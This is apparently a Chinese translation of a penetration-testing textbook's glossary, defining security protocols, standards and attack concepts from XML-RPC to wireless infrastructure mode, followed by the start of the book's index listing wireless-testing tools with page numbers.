`XML-RPC` 是一种使用 `XML` 作为负载与服务进行远程通信的协议。它使用 `HTTP/S` 作为通信的传输机制，`XML` 作为编码机制。`XML-RPC` 经常用于 Web 服务，可能会受到 `XML` 序列化问题或认证问题的影响，从而暴露非预期的数据。

**false positives**  
在自动或手动测试期间识别出的条件，导致对问题的错误识别。

**File Transfer Protocol (FTP/FTPS)**  
文件传输协议（`FTP`）和基于 SSL 的 `FTP`（`FTPS`）是通过网络传输和接收文件的协议。

**flow control**  
确定程序执行应如何进行（如循环）。

**footprinting**  
通过侦察识别系统或组织性质的过程。它是你塑造侦察活动并解释结果的方式。

**fuzzing**  
一种安全测试技术，向应用程序或网络服务中的输入控件发送意外的、随机的数据以产生错误，希望发现或暴露可能被利用的安全弱点。

**General Data Protection Regulation (GDPR)**  
一项欧盟法律，规定了在欧盟境内个人可识别信息的处理和处理规则。该法律适用于所有存储、处理或收集欧盟境内个人可识别信息的组织和实体。

**goals-based assessment**  
一种测试，约定目标的达成决定了测试的成功或失败标准，这与基于合规性的测试相反，后者的成功/失败目标由测试确定的对法规和标准的遵从程度决定。

**graphics processing unit (GPU)**  
专为加速图形渲染而设计的专用计算机硬件芯片。在渗透测试中，被密码破解工具用于加速密码哈希破解工作。

**Group Policy Object (GPO)**  
一组设置的集合，用于管辖 `Active Directory (AD)` 网络中的用户和计算机配置。

**Group Policy Preferences (GPP)**  
一组可选扩展，旨在扩展 `Group Policy Objects (GPOs)` 的功能。`GPP` 允许 `Active Directory (AD)` 域管理员创建域策略以自动化繁琐的任务，例如更改主机操作系统上的本地 `Administrator` 账户密码。

**Hypertext Transfer Protocol (HTTP/HTTPS)**  
超文本传输协议（`HTTP`）和安全超文本传输协议（`HTTPS`）是 Web 服务器和 Web 客户端之间通信的协议。通信通常以请求和响应对的形式发生。

**identity and access management (IAM)**  
在云环境中，`IAM` 是一种用于控制对云资源访问的 Web 服务（如 `AWS`）。在更通用的计算环境中，`IAM` 是一系列管理企业内部访问的过程。

**industrial control system (ICS)**  
工业控制系统是与各类工业自动化相关的系统，例如制造、发电（发电厂）以及水处理和分配系统。

**Industrial Internet of Things (IIoT)**  
专为工业领域和应用而设计的 `IoT` 设备。

**Information Systems Security Assessment Framework (ISSAF)**  
`ISSAF` 是一种完整的安全评估方法论，适用于安全审计以及其他类型的安全测试。它定义了渗透测试的三个阶段：规划和准备、评估和报告、清理。`ISSAF` 为业务管理提供最佳实践，包括评估前和评估后的行动、风险评估方法论，以及各类安全评估（不仅限于渗透测试）的信息收集。

**Infrastructure as a Service (IaaS)**  
一种云计算服务，提供按需的网络、存储和计算资源。

**insider threat**  
一种拥有组织内部知识或拥有组织信息系统特权访问权限的个人，其动机基于因被解雇而产生的报复心理，或寻求出售机密以获取经济利益。

**Intelligent Platform Management Interface (IPMI)**  
`IPMI` 是一种硬件技术，其协议允许使用基板管理控制器（`BMC`）或管理控制器（`MC`）远程管理服务器硬件。示例包括 `HP iLO`、`Dell DRAC` 和 `Supermicro IPMI`。使用 `IPMI`，管理员可以监控和管理外设及其他硬件、执行重启，甚至可以在操作系统之外重新安装主机。利用某些系统提供的 `KVM` 访问，攻击者甚至可能利用此功能远程交互式地访问操作系统。

**International Mobile Equipment Identity (IMEI)**  
`IMEI` 号码是每个移动设备特有的 15 位数字，用于在移动网络上识别设备。

**International Organization for Standardization (ISO)**  
`ISO` 是一个由多国标准机构组成的非政府组织。`ISO` 制定并发布国际标准。一个例子是 `ISO/IEC 27001`，这是一个信息安全管理标准。


##### 术语表

###### Internet Control Message Protocol (ICMP)
一种网络协议，用于在与另一个 IP 地址通信时，在网络设备之间发送错误消息和操作信息。最常见于 `ping` 和 `traceroute` 的使用中。

###### Internet of Things (IoT)
具有嵌入式传感器、软件和其他技术的物理设备、对象、机器，甚至动物，它们连接到网络并与互联网上的其他设备交换数据，而无需人工干预。大多数智能设备（恒温器、冰箱、摄像头等）都属于这一类，但心脏起搏器、生物芯片和汽车传感器也符合资格。

###### Internet Protocol (IP)
IP 是互联网使用的网络层通信协议。

###### Internet service provider (ISP)
ISP 是为个人和组织提供互联网连接和服务的公司。

###### intrusion prevention system (IPS)
IPS 是以软件或硬件实现的网络安全控制，用于检查网络流量中的攻击模式，并主动阻止该流量到达其预期目标，或根据检测到的行为发出警报，以便采取其他行动（如入侵检测系统 (IDS) 设置的情况）。

###### iOS App Store Package (IPA)
一个 Zip 压缩归档文件，包含在 Apple iOS 移动架构上运行应用程序所需的文件。

###### iOS simulator
iOS 开发工具包 (XCode) 的一项功能，可模拟 iDevice 的基本行为及其与 iOS 应用程序的交互方式。

###### jailbreaking
利用 iOS 中的软件漏洞以获得提升权限（即 root）的低级执行能力，从而移除 Apple 施加的限制，以自定义设备并安装未经批准的应用程序的过程。

###### Java Archive (JAR)
一种包文件格式，将 Java 应用程序成功执行所需的所有资源（类文件、图像、文本等）打包成一个资源。

###### JavaScript Object Notation (JSON)
JSON 是一种轻量级、自描述、人类可读的结构化数据格式。

###### Joint Test Action Group (JTAG)
一种用于调试和连接电路板上嵌入式设备的标准类型。

###### Kerberos
一种网络认证协议，利用票据系统允许通过网络操作的主机和用户以安全的方式相互证明身份。

###### keylogger
一种用于记录受害者在使用计算机时按键的程序。

###### Lightweight Directory Access Protocol (LDAP)
LDAP 是一种供应商中立且行业标准的协议，用于应用程序与目录服务（如 Active Directory）进行交互。

###### linear search
一种顺序评估过程，其中每个值都会被检查，直到确定正确的值为止。

###### link-local multicast name resolution (LLMNR)
一种 Microsoft 协议，旨在允许 Microsoft 系统通过向同一多播域上的其他 Microsoft 系统广播查询来执行名称解析。

###### local area network (LAN)
一组设备通过网络连接在单一物理位置（如办公楼或住宅）中。

###### Local Security Authority Subsystem Service (LSASS)
LSASS 是一个 Microsoft Windows 进程，它在系统上强制执行安全策略，包括 LSA 模型。Local Security Authority (LSA) 是 Windows 操作系统中的一种认证模型，提供额外的有益功能和选项，例如支持多因素认证（如智能卡）、自定义安全包和凭据管理，以支持与非 Microsoft 产品（如其他网络或数据库）的交互。它经常作为凭据窃取攻击的一部分被攻击。

###### lock
一种可安装在入口处（即门）或其他存储容器（即柜子）上的装置，有助于将未经授权的人员挡在受限区域之外，同时允许授权人员进入。锁具有不同的锁定功能（如入口锁和插芯锁），以满足各种类型的保护要求。

###### lock bypass
在完全不操作锁的情况下击败锁定机制的过程。

###### lock pick
一种在没有钥匙时帮助击败锁内锁定机制的工具。

###### lock picking
包括击败锁定机制的各种技术，如单针撬锁 (SPP)、晃动和掏拨，以及使用撞匙。

###### loop
一种指令，在给定条件为真时重复执行，直到条件为假。

###### Mail Exchange (MX)
MX 记录是一种 DNS 资源记录，定义了接受域电子邮件的邮件服务器。这对侦察很有用。针对备份邮件服务器进行网络钓鱼，在配置薄弱的环境中可能面临较少或不同的安全控制。

###### master service agreement (MSA)
一种管理两个组织或商业合作伙伴之间关系的合同文件，旨在简化未来建立合同的过程。MSA 涵盖付款条款、争议解决和相互责任条款等内容。

###### media access control (MAC)
MAC 是网络数据链路层的一部分。MAC 管理网络接口卡 (NIC) 的进出通信。MAC 地址是用于在网络上唯一标识设备的硬件地址。

###### memorandum of understanding (MOU)
MOU 是渗透测试前生成的具有法律目的的初步文件。该文件定义了各方的角色和责任，记录了互动过程中遵守的任何法律法规，并定义了双方进行渗透测试的意图，但其详细程度不如 RoE。它最常用于客户有合规要求或其他政府合同要求时。

###### Microsoft Remote Procedure Call (MSRPC)
一种协议，允许远程用户在远程系统上调用过程，就像从本地系统调用一样。

###### mobile device management (MDM)
MDM 是一系列工具和策略，允许组织监控、管理、保护智能手机和其他移动设备（如平板电脑），并在这些设备上强制执行策略。

###### name server (NS)
名称服务器包含主机的主机名到 IP 地址的映射，通常用于支持 DNS。这些服务器具有各种记录类型，包含有关服务、主机和其他域相关信息的信息。

###### National Institute of Standards and Technology (NIST)
NIST 是一个非监管机构，隶属于美国商务部。除了作为一个物理科学实验室外，该组织还为各个科学领域创建和推广标准，包括信息安全和网络防御标准。

###### National Institute of Standards and Technology Special Publication (NIST SP)
NIST 特别出版物通常包含关于特殊研究领域的详细规范，包括关于信息安全和网络防御等主题的最佳实践和指南。渗透测试人员感兴趣的是 800 和 1800 系列文档。

###### near field communication (NFC)
NFC 是指常见于手机、移动设备和某些形式的门禁卡中的短距离无线通信技术。

###### Nessus Attack Scripting Language (NASL)
由 Tenable 开发的一种专有语言，用于开发 Nessus 插件，这些插件包含漏洞信息、修复详情以及确定安全弱点存在与否的逻辑。

###### NetBIOS Name Service (NBT-NS)
NBT-NS 是 Microsoft Windows 系统上发现的一种备用名称查找服务，常被 Responder 工具利用。这与 LLMNR 不同，它发送到广播域而不是多播域。


##### 术语表

**netgroup**  
用于在 Linux 和 UNIX 网络域（例如 NIS 或 LDAP）环境中进行权限检查的一组用户或主机，适用于挂载文件共享、远程登录、远程执行等远程操作。

**Network Access Control (NAC)**  
基于 IEEE 802.1x 原则构建，通过实施一组协议和策略来控制允许连接到网络的设备，这些协议和策略在连接到网络时强制执行身份验证要求，例如姿态检查或白名单机制。

**network address translation (NAT)**  
实现专用（不可路由）网络地址到公用（可路由）地址的转换。

**Network Basic Input/Output System (NetBIOS)**  
有助于促进 Microsoft 应用程序通过网络进行通信，并提供协议管理、消息传递和数据传输、主机名解析等服务。

**Network File System (NFS)**  
NFS 是一种文件系统和协议，可为 \*NIX 操作系统启用网络文件共享。

**Network Time Protocol (NTP)**  
NTP 是一种跨多个系统同步时间的协议。

**New Technology LAN Manager (NTLM)**  
NTLM 是 Microsoft Windows 的一种密码算法，使用 RC4 加密并支持长度超过 14 个字符的密码。基于网络的身份验证版本为 `NetNTLM` 和 `NetNTLMv2`，其中添加了额外的 nonce 以保护底层密码存储。

**Nmap scripting engine (NSE)**  
一个嵌入式 Lua 编程语言解释器，提供有助于自动执行各种任务的功能，例如信息发现和利用技术。

**noncredentialed vulnerability scan**  
展示攻击面在不受信任用户眼中的样子。组织可分析结果，并确定初始防御战术的重点关注领域。

**nondisclosure agreement (NDA)**  
一种保密协议，通过保护企业的专有信息和知识产权来维护其竞争优势。

**Open Web Application Security Project (OWASP)**  
OWASP 项目（<https://www.owasp.org>）是一个非营利组织和开源社区项目，致力于生产与 Web 应用程序安全领域相关的工具、技术、方法和文档。OWASP 拥有许多知名出版物和资源，例如 OWASP Top Ten、OWASP Testing Guide、OWASP ZAP Project、DirBuster 和 Webgoat。

**open-source intelligence (OSINT)**  
OSINT 是指通过合法手段利用公开可用来源获取的任何信息。

**Open-Source Security Testing Methodology Manual (OSSTMM)**  
OSSTMM 是由 ISECOM 发布的一份指南，他们将其描述为一种完整的渗透测试方法论，旨在确保彻底、合法、一致且可重复且可衡量的测试。

**operating system (OS)**  
操作系统是处理磁盘、内存、进程以及其他与硬件交互的关键事务的内核和支持程序。操作系统通常拥有承担大部分工作的内核，但也包括驱动程序、用户态程序和其他捆绑在一起的方面，以构建一个供用户或服务用于执行的平台。

**passive information gathering**  
在不主动接触目标或其资产的情况下，评估目标以收集关于系统、软件、网络和人员的初步知识的过程。

**Password-Based Key Derivation Function 2 (PBKDF2)**  
PBKDF2 是 WPA 和 WPA2 用于帮助派生 PMK（一种用于保护握手的共享密钥）的算法。

**Payment Card Industry Data Security Standard (PCI DSS)**  
PCI-DSS 是一个行业强制标准，定义了一系列规则，使用支付卡处理付款的企业应遵循这些规则，以更好地保护卡数据和交易。

**penetration testing execution standard (PTES)**  
PTES 是一个社区驱动的项目，旨在建立渗透测试标准，由渗透测试咨询社区的许多专业人士共同贡献。其创建目的是为了消除企业寻求安全测试服务时对“渗透测试”含义的歧义。该标准提供了作为渗透测试一部分通常应采取的步骤的最佳实践，包括报告、情报收集、威胁建模和漏洞分析，并解释了利用和利用后阶段范围内的概念。

**pentester**  
负责识别组织安全支持结构中的弱点，并模拟适用于组织威胁概况的攻击的安全专业人员。

**perimeter barrier (preventative perimeter control)**  
一种物理安全防护措施，有助于延缓攻击或减少对设施的损害，例如大门、混凝土路障或围栏。

**persistence**  
一种用于在目标环境中保持攻击存在的技术。

**phishing**  
一种通过电子邮件、电话或短信传递的欺诈技术，用于从目标获取敏感信息或投放载荷以在网络中建立立足点。

**piggybacking**  
一种社会工程学类型，持有合法访问权限的授权员工允许未经授权的人员通过门禁，因为对方看起来值得信任。

**pivoting**  
一种横向移动技术，允许攻击者使用远程访问工具（如 `SSH`、`Telnet`、`FTP`、`RDP` 和 `VNC`）在主机之间移动。

**PowerShell (PS)**  
PowerShell 是微软创建的命令行 Shell、脚本语言和配置管理框架，旨在成为基于 Windows 系统的自动化解决方案。

**preshared key (PSK)**  
PSK 用作 WPA-Personal 网络认证方法的一部分。**PSK（密码）长度可以在 8 到 63 个 ASCII 字符之间**，是无线网络上每个端点使用的单个共享密码。

**pretexting (pretext)**  
为证明其他行为合理或使受害者相信这些行为可信而编造的虚假情境。

**privileged-level access**  
用于描述超出普通用户权限的任何访问级别（例如，执行管理操作的访问权限）。

**programmable logic controller (PLC)**  
一种用于工业自动化解决方案以控制制造过程的专用计算机。

**property list (plist)**  
以二进制或文本格式存储的 XML 格式文件，为多种 Apple 应用程序提供配置设置和属性数据。

**protocol**  
一组正式规则，描述如何发送和接收数据的功能。

**public key infrastructure (PKI)**  
PKI 存放证书、角色和设施以支持公钥加密。公钥加密使用私钥和公钥进行加密，将公钥存储在易于访问的位置，如 PKI 甚至网站上。任何人都可以知道公钥，并用它来为私钥持有者加密信息；但是，这些证书可以被吊销，PKI 也会跟踪被吊销的证书。只有拥有私钥的人才能解密该消息。同样，如果有人用他们的私钥对消息进行签名，公钥持有者可以验证该消息是由私钥持有者签名的。PKI 通常使用 RSA 和 DSA 等算法来生成证书并对其进行签名。

**race condition**  
两个独立的输入基于时间竞争处理单个目标，处理顺序可能会产生意外或不良结果。

**radio frequency identification (RFID)**  
一种无线通信标准，利用无线电波从远处读取存储在标签上的数据。然后可以将此数据与认证数据库进行比较，并用作授权执行系统的一部分。


##### 术语表

**rainbow tables**  
包含特定长度的预计算哈希值，可用于加速离线密码破解过程。

**reconnaissance (recon)**  
一种初步监视技术，用于收集关于目标组织或其资产（即人员、流程和技术）的情报。

**red team assessment**  
涉及隐蔽和混合方法（即网络渗透测试和社会工程学），以实施真实攻击场景，并确定组织在现有防御和检测能力下的表现（即攻击者在特定访问级别下能做什么）。

**registers (memory registers)**  
内存寄存器通常持有引用内存的指针。例如，指令指针寄存器（`EIP`）存储一个指针，指向当前指令在内存中的执行位置（内存地址）。

**remediation**  
用于修复或解决不期望缺陷的过程。补救措施可以是修复问题的推荐解决方案（即人员、流程、技术）。

**remote access trojan (RAT)**  
RAT 是一种恶意软件，旨在允许对受感染系统进行远程访问和管理，但伪装成其他程序。

**Remote Desktop Protocol (RDP)**  
RDP 是微软设计的一种远程管理协议，允许对 Windows 系统进行图形化访问。

**request for comment (RFC)**  
RFC 是由个人或工程师团体编写的编号出版物，通常描述研究、协议、方法或其他创新，目的是征求同行评审或向更广泛的受众传达信息。例如，互联网工程任务组（IETF）的 RFC 定义了 TCP/IP 应如何工作。

**RFID cloning (badge cloning)**  
从一张 RFID 卡（或钥匙扣）读取一系列比特，并将相同的比特序列写入另一张兼容卡中，或在认证尝试中重放该序列的过程。

**risk appetite**  
组织为实现其目标所愿意接受的风险水平——例如，风险与回报的权衡。

**root bridge**  
生成树协议（STP）的一项功能，作为生成树拓扑中所有交换机的参考点。

**rooting**  
利用移动设备漏洞，利用 Android 操作系统中的软件漏洞，实现具有提升权限（即 root）的低级执行，并允许用户对操作系统进行制造商未预期的修改。

**rules of engagement (RoE)**  
一份书面文件，规定了关于渗透测试执行的指导方针和限制，最重要的是什么被授权测试，什么不被授权。

**scope**  
渗透测试的限制，通常可在工作说明书（SOW）中找到，描述了渗透测试期间要完成的工作活动。

**scope creep**  
在渗透测试期间，当额外的任务或测试活动被添加到项目中并超出了工作说明书的原始预期时发生，这可能对整体进度或最终渗透测试报告的交付产生负面影响。

**Secure/Multipurpose Internet Mail Extensions (S/MIME)**  
S/MIME 是邮件的安全扩展，支持使用公钥加密对消息进行加密和签名。S/MIME 使用典型的 SMTP 服务器和通信，但扩展和邮件系统功能允许用户使用公钥加密发送加密消息，只要材料受信任，用户就可以验证发件人和消息的真实性。

**Secure Sockets Layer (SSL)**  
SSL 是一种标准技术，旨在通过在客户端和服务器之间建立加密链路来保护网络通信。另请参阅传输层安全性（TLS）。

**security accounts manager (SAM)**  
一个本地数据库文件，包含主机的本地账户设置和密码哈希。

**security information and event management (SIEM)**  
SIEM 是在集中位置聚合日志、事件数据和安全警报的系统，用于关联和分析。

**security operations center (SOC)**  
SOC 是一个集中的组织职能，旨在处理安全事件、警报和事故的监控、分析、检测和响应。

**segmentation fault (segfault)**  
由软件程序尝试读取或覆盖受限内存区域引起。

**Server Message Block (SMB)**  
SMB 是一种用于网络上文件和资源共享的客户端-服务器协议。

**service**  
一种软件实现，为特定计算平台执行协议的正式规则。

**service level agreement (SLA)**  
SLA 是一份文件或合同条款，定义了客户与服务提供商之间期望的衡量标准，以及未满足这些期望时的条款。

**service principal name (SPN)**  
Windows 服务每个实例的唯一标识符。

**Service Set Identifier (SSID)**  
无线 AP 管理无线网络并广播一个区分大小写的 32 位字母数字字符的 SSID 来宣告网络的存在。SSID 是 WLAN 的名称。

**Session Initiation Protocol (SIP)**  
SIP 是一种用于互联网电话应用的语音、视频和消息传递协议。

**Set Group ID (SGID)**  
SGID 是一种 \*NIX 文件权限，允许用户使用除用户账户正常组权限以外的组权限来执行文件。

**Set User ID (SUID)**  
SUID 是一种 \*NIX 文件权限，允许用户以另一个用户的权限执行文件。

**shell escape**  
一种用于在 Linux 或 UNIX 操作系统中逃逸受限 Shell 的攻击技术。

**Short Message Service (SMS)**  
SMS 是用于移动电话发送和接收文本消息的技术。

**Simple Mail Transfer Protocol (SMTP)**  
用于电子邮件的投递。

**Simple Network Management Protocol (SNMP)**  
一种应用层网络监控协议，最初在 RFC 1157 中定义，提供通过网络收集和组织设备信息以及更改设备行为的功能。

**single sign-on (SSO)**  
允许用户一次性输入用户名和密码。认证和授权服务器生成一个会话，该会话可作为受信任身份用于访问已知应用程序，具体取决于用户被授权的权限和特权。

**SMS phishing (smishing)**  
一种社会工程学技术，通过短信针对受害者，可能使用稀缺性或恐惧等不同激励技术诱使受害者执行操作，如点击消息中的恶意 URL。

**software-defined radio (SDR)**  
SDR 是无线电系统，其组件传统上在硬件中实现，而在软件或固件中实现带宽、信号强度和其他无线电功能等属性。

**software development kit (SDK)**  
程序员用于开发应用程序的一组软件工具。

**software development lifecycle (SDLC)**  
一种旨在实现高质量和成本效益结果的结构化软件开发流程。流程组件示例包括设计、分析、维护和测试。

**solid-state drive (SSD)**  
SSD 是使用基于闪存的存储器以实现更快性能的存储设备。

**solid-state hybrid drive (SSHD)**  
SSHD 是既具有基于闪存的存储，又具有传统硬盘特性（旋转磁盘和执行臂）的存储设备。这些设备试图在提供更大存储容量的同时实现更好的性能。


##### 术语表

###### Spanning Tree Protocol (STP)
一种运行在网桥和交换机等网络设备上的第 2 层协议，有助于防止具有冗余路径的网络中出现环路。

###### spear phishing（鱼叉式网络钓鱼）
一种社会工程学技术，针对群组或组织内的特定个人，诱导其执行特定操作（如点击电子邮件中的 URL）。

###### SSL stripping（SSL 剥离）
一种中间人攻击技术，用于强制用户通过明文通信连接到端点。该技术可用于捕获登录凭据或其他敏感信息，这些信息通常在通信加密时受到保护。

###### stack pointer（栈指针）
一个内存寄存器，用于存储栈中最后一个程序请求的地址。

###### statement of work (SOW)（工作说明书）
概述服务供应商为组织执行的特定项目工作。

###### static analysis（静态分析）
一种调试方法，用于在不执行的情况下检查源代码、字节码和二进制文件。

###### string operations（字符串操作）
用于操作字符串数据的程序操作。

###### Structured Query Language (SQL)（结构化查询语言）
用于访问和操作数据库的语言。

###### stumbling（无线侦察/探测）
一种无线侦察技术，用于无线网络的发现和枚举。

###### substitution（变量替换）
当访问或操作变量的值（例如 `$var`）时发生变量替换，例如使用变量扩展。例如在 Shell 脚本中使用 `${#var}` 访问变量的长度。

###### supervisory control and data acquisition (SCADA)（数据采集与监视控制系统）
SCADA 系统是工业控制系统（ICS），允许通过人机界面（HMI）软件对传感器、PLC 等远程 ICS 组件进行监控、记录和控制。

###### switch spoofing（交换机欺骗）
一种 VLAN 跳跃攻击，当攻击者通过使用 802.1Q 协议在网络上模拟有效的中继交换机时发生。

###### tactics, techniques, and procedures (TTPs)（战术、技术与过程）
用于描述攻击者在攻击期间的行为。理解的简便方法是提出三个问题：攻击者为什么这样做（战术）？攻击者做了什么（技术）？攻击者是如何做的（过程）？

###### tailgating（尾随）
类似于“搭便车”，即未经授权的人员跟随拥有合法访问权限的授权员工进入受限区域；但员工未提供同意，且很可能不知道未经授权的人员已跟随进入。

###### target selection（目标选择）
选择资产的过程，属于测试准备阶段。涉及对测试范围内包含的内容和排除的内容进行一定程度的讨论、思考（甚至可能包括研究和同意）。

###### technical constraints（技术约束）
由被测试客户的要求或测试本身的性质施加于渗透测试的技术限制。技术约束也可能存在于客户端，从而限制某些技术或缓解策略的实施。

###### Temporal Key Integrity Protocol (TKIP)（临时密钥完整性协议）
TKIP 是一种对称加密，使用 WEP 编程和 RC4 加密算法，并为每个数据包使用更强且唯一的加密密钥进行加密。它还使用加密消息完整性检查、包含哈希的 IV 序列机制、确保在 10,000 个数据包后生成密钥的重新生成密钥机制，以及用于增加加密强度的逐包密钥混合功能。这些设计旨在增加针对社会工程学、重放和注入攻击、弱密钥攻击及伪造尝试的额外防护。

###### threading（线程/多线程）
用于计算机程序中并行执行多个任务，以优化程序执行的速度和效率。

###### threat actor（威胁行为体）
寻求危害企业或组织的个人或团体，其动机源于经济、个人或政治利益。

###### threat modeling（威胁建模）
一种迭代过程，旨在识别组织资产、定义安全配置文件、识别并确定威胁优先级，并确定适当的对策以缓解风险。

###### time to live (TTL)（生存时间）
TTL 是数据包在过期并被路由器丢弃前允许经过的网络跳数的度量。这也可以指 DNS 缓存服务器在发起新查询前缓存查询数据的时间。

###### timestomping（时间戳篡改）
一种修改文件或目录时间戳的技术，用于掩盖可能的妥迹象。

###### Transmission Control Protocol (TCP)（传输控制协议）
TCP 是互联网使用的有状态传输层通信协议。

###### Transport Layer Security (TLS)（传输层安全）
TLS 是 SSL 加密的继任者，旨在为通信的传输层提供加密和安全。TLS 通常用于基于 HTTPS 的通信。

###### Unicode Transformation Format (UTF)（Unicode 转换格式）
UTF 标准定义了字符编码。最常见的是使用 8 位字符的 UTF-8，但 Windows 和其他一些系统使用 UTF-16（即 16 位字符）。UTF 编码可在兼容字符之间转换，但主要提供跨系统定义字符代码的参考。

###### uniform resource identifier (URI)（统一资源标识符）
URI 是用于定义资源的 RFC，可能包括 URL 和统一资源名称（URN）来标识资源，但不一定定义如何访问这些资源。在讨论 Web、FTP 和其他 `<protocol>://<location>` 格式时，URI 和 URL 经常互换使用。由于以下示例不包含协议但确实标识了资源，因此它是 URI 而非 URL：`data:,Foo%20Bar`。

###### uniform resource locator (URL)（统一资源定位符）
URL 是一种包含如何访问特定资源信息的 URI。通常，URL 包含协议、主机名和文件名（例如 `https://derp.pro/foo.htm`）。

###### universal system bus (USB)（通用串行总线）
USB 是用于外设通信的线缆、连接和协议的标准。协议有多个版本，包含不同的功能和带宽。USB 设备具有由供应商 ID 和产品 ID 组成的标识符，有助于系统识别设备。

###### User Datagram Protocol (UDP)（用户数据报协议）
UDP 是一种运行在 IP 之上的传输层协议。它是无连接的，不保证数据包的交付，这意味着它开销较低，但也存在丢包的可能性。它常用于需要更快交付时间且能弹性应对一定数据丢失的流式数据传输。

###### user-defined function (UDF)（用户定义函数）
一种扩展 MySQL 的方式，添加的新函数像原生（内置）MySQL 函数（如 `CONCAT()`）一样工作，也可用于执行代码。

###### user-level access（用户级访问）
定义组织内典型用户拥有的访问权限，例如网络账户、网络共享访问权限等。

###### variable（变量）
包含值的内存占位符。

###### virtual local area network (VLAN)（虚拟局域网）
VLAN 为可能使用共享交换机、路由器和其他基础设施的网络提供逻辑分段。这种逻辑分段通过标记技术（如 802.1Q、VTP 或其他专有协议）实现。系统可能知道其标记的 VLAN，也可能对其透明。系统也可能在一个接口上拥有多个 VLAN，针对 VLAN 配置和协议的各种攻击可能让系统访问其不应访问的 VLAN，这被称为 VLAN 跳跃攻击。


##### 术语表

###### virtual machine (VM)
虚拟机使用虚拟化硬件，允许多台机器在单个系统上运行。运行 VM 的系统称为宿主系统，它运行一个管理程序——即运行在用户空间或内核空间中的程序——用于管理虚拟化。VM 通常实现处理器功能的一个子集，因此并非所有处理器功能都会启用，这意味着并非所有操作系统都能在所有系统上被模拟。

###### virtual private network (VPN)
VPN 使用 IPSec、TLS 或其他协议在两个网络之间或主机与网络之间建立私有连接。VPN 用于通过公共网络安全地将主机的网络扩展到远程网络。VPN 服务器端点可能支持多种协议，其中一些可能具有额外选项，例如 TLS 或 SSL VPN 可能支持的加密套件，这使它们容易受到某些协议攻击。VPN 可用于扩展企业网络、为扫描或其他攻击掩盖源 IP 地址，或在浏览和研究中提供隐私保护。

###### virtual private server (VPS)
虚拟专用服务器是共享基础设施上租用的 VM，旨在为用户提供廉价的计算设施。

###### Voice over Internet Protocol (VoIP)
VoIP 促进了通过基于 IP 的网络发送电话呼叫。SIP 或 RTSP 等协议处理连接呼叫的信令，然后使用其他协议发送数据包。VoIP 可以使用 TCP 或 UDP，并且可以是客户端到客户端或客户端到服务器模式。流行的实现包括 Asterisk，一个开源的 VoIP 服务器。

###### voice phishing (vishing)
一种利用电话呼叫的社会工程学技术，用于从目标处提取敏感信息，或诱导其执行平时不会执行的活动，例如重置并不属于来电者的 iTunes 账户密码（借口）或发送不应发送的电汇（欺诈）。

###### vulnerability assessment scanner (VAS)
漏洞评估扫描器对系统或网络执行主动扫描，以识别潜在的安全弱点或漏洞。扫描可以在未认证或已认证状态下执行，已认证方法产生的误报较少，而未认证扫描扫描时所需的开销和控制较少，但需要更多交互来消除误报。

###### vulnerability mapping
将漏洞映射到潜在利用的过程，以帮助在渗透测试准备阶段确定测试活动的优先级。

###### wardriving
一种在移动车辆中对某区域的无线接入点进行勘测的战术过程。目标是初步侦察，并确定感兴趣区域内的无线网络和潜在目标。

###### waterholing
一种用恶意软件感染网站的技术，旨在利用目标或目标群体对其常访问网站的信任关系。

###### web application firewall (WAF)
WAF 是一种检测和防护控制，旨在部署在 Web 服务器前端，识别恶意流量并对其发出警报或将其阻断。如果针对特定站点进行训练，WAF 效果最好；否则，通用规则可能存在规避机会，仍会使某些 Web 应用程序处于脆弱状态。

###### Wi-Fi Protected Access (WPA)
作为 WEP 在 802.11 网络中的临时替代方案推出，使用预共享密钥（PSK）和临时密钥完整性协议（TKIP）进行加密。后来推出了 WPA2，通过使用高级加密标准（AES）增强了 802.11 安全标准。

###### Wi-Fi Protected Setup (WPS)
一种无线网络安全标准，旨在允许用户建立配置为使用 WPA 或 WPA2 的安全无线网络，并有助于降低将额外主机关联到网络的整体复杂性。按下无线路由器背面的按钮即可通过 WPS 让无线客户端关联到网络，而无需预共享密钥（密码），这种额外的便利性可能对某些用户有益。

###### Windows Management Instrumentation (WMI)
WMI 提供检测功能，允许用户或应用程序收集有关本地或远程 Windows 系统运行时状态的信息。WMI 可以查询硬件配置、用户、进程和其他信息。WMI 还具有订阅模型，特定事件可以触发操作。

###### Windows Remote Management (WinRM)
Windows Remote Management 旨在对 Windows 系统进行远程管理。可以通过命令行使用 `winrs` 命令或通过 PowerShell 使用 WinRM。WinRM 在大多数系统上使用端口 443 或 5986。

###### Wired Equivalent Privacy (WEP)
802.11 标准的初始加密协议，用于保护无线网络通信。顾名思义，WEP 安全标准旨在为无线用户提供与插入有线电缆连接到网络交换机相同级别的隐私。WEP 使用 RC4 流密码保护传输中数据的机密性，并使用 CRC-32 校验和保证完整性。

###### wireless access point (AP or WAP)
无线 AP 是创建无线网络（WLAN）的设备。通常它连接到有线网络，使无线设备能够相互通信并与有线网络通信。

###### wireless infrastructure mode
家庭和商业应用中最常见的配置。在基础设施模式下，无线客户端与称为无线接入点（AP）的中央设备通信，而不是像自组网模式那样直接相互通信。

## INDEX

##### A

- access control points, 250
- access controls, weak, 181–182
- access points (APs)
  - interference, 124
  - rogue, 146–147, 392
  - scanning, 133
  - WEP, 128, 137–138
  - wireless, 125
- accesschk.exe command, 302
- accounts
  - credential harvesting, 196–202
  - takeover, 202
- Active Directory (AD) user enumeration, 369–370
- Active Directory Domain Services (AD DS), 90
- active queries with theHarvester, 42
- active reconnaissance
  - defense detection and detection avoidance, 73–78
  - host enumeration, 58–61
  - overview, 58
  - service identification and fingerprinting, 62–68
  - user enumeration, 71–73
  - web content enumeration, 68–71
- activities in Android applications, 221
- AD (Active Directory) user enumeration, 369–370
- AD DS (Active Directory Domain Services), 90
- ad hoc wireless networks, 124–125
- ADB (Android Debug Bridge), 230–231
- Address Resolution Protocol (ARP)
  - host enumeration, 60–61
  - poisoning, 92–93
  - WEP cracking, 136–139
- administrative controls recommendations, 338–339
- Advanced Encryption Standard (AES)
  - mobile device hardware, 218
  - passwords, 280
  - WPA, 129
- AFRINIC regional registry, 36
- airbase-ng tool
  - description, 379
  - rogue access points, 147
- aircrack-ng tools
  - tools suite, 379–380
  - wireless attacks, 133
  - WPA cracking, 143
- airdrop-ng tool, 379
- aireplay-ng tool


############### 索引

##### A

- **description**，379
- **WEP cracking**，139

###### airgraph-ng tool
- **description**，379

###### airmon-ng tool
- **description**，379
- **wireless scans**，133

###### airodump-ng tool
- **description**，380
- **WEP cracking**，138–139
- **wireless attacks**，133–134
- **WPA cracking**，142–143

- **AKIA keys**，201
- **allowed and disallowed tests**，8
- **amplification floods**，106
- **AMSI (Antimalware Scan Interface)**，78

